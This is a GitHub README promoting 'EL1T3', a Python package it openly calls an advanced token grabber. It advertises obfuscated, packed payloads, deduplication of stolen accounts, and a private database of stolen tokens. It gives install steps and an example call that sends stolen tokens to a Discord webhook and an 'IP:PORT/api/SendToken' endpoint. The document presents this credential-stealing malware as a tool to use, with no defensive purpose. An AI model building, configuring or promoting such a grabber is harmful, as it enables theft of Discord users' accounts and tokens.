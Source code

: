 <h1 align="center">THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/3UspqWXZtD">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FEATURE</h1>

- Dynamic url
- Private Database🦄 тнe мoѕт αdvαɴced αɴd powerғυl тoĸeɴ ɢrαввer
- Remove Duplicate account / token
- Obfuscate and pack payload
- Easy to use

<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

#

<h1 align="center">BUILD GRABBER</h1>

- **You can edit the grabber code on ``stub.txt`` file**
- **Dynamic api url in builder soon**

<img align="center" src="https://media.discordapp.net/attachments/823543490578219008/823601738585866251/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377574079234098/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823378287535194212/unknown.png">

#

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">